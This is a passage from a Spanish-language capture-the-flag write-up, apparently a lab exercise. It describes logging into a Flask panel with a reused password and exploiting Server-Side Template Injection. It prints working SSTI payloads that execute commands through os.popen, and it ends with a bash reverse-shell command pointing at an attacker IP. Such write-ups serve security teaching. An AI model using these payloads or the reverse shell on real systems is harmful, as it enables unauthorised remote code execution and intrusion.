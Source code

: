 #### Una vez ingresado al subdominio, nos encontramos con un panel de login:

![](https://i.ibb.co/G2jm89p/login-flask.png)

#### Al intentar utilizar la misma contraseña ("superadministrator") con el nombre de usuario "admin", logramos autenticarnos y accedemos al dashboard. *Esto es una falla de seguridad común, por eso está la importancia de siempre usar contraseñas distintas para cada lugar.*

### Server-Side Template Injection (SSTI)

#### Dentro del apartado de Settings, podemos ver que podemos cambiar nuestro nombre, y si analizamos las tecnologías que utiliza la aplicación web, está ejecutando Flask (Python). Por lo que podríamos intentar inyectarle el payload básico de Server-Side Template Injection:

{% raw %}
```python
{{7*7}}
```
{% endraw %}

![](https://i.ibb.co/jgkzY1Y/ssti-49.png)

#### Ahora que sabemos que es vulnerable a Server-Side Template Injection podemos intentar ejecutar del lado del Servidor (Server-Side) una shell reversa hacia nuestra máquina atacante. 

##### Sabemos que la app web utiliza Python para el Back-End por lo que podemos revisar el sitio de PayloadAllTheThings y buscar un payload para ejecutar una reverse shell en Python.

##### En un principio podríamos construir entonces nuestro propio payload de la siguiente manera:

{% raw %}
```python
{{cycler.__init__.__globals__.os.popen('id').read()}}
```
{% endraw %}

#### Ahora modificamos la función os.popen('') para que ejecute una shell reversa con Netcat de la siguiete manera:

*Payload de Netcat:*

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.20/4444 0>&1"
```
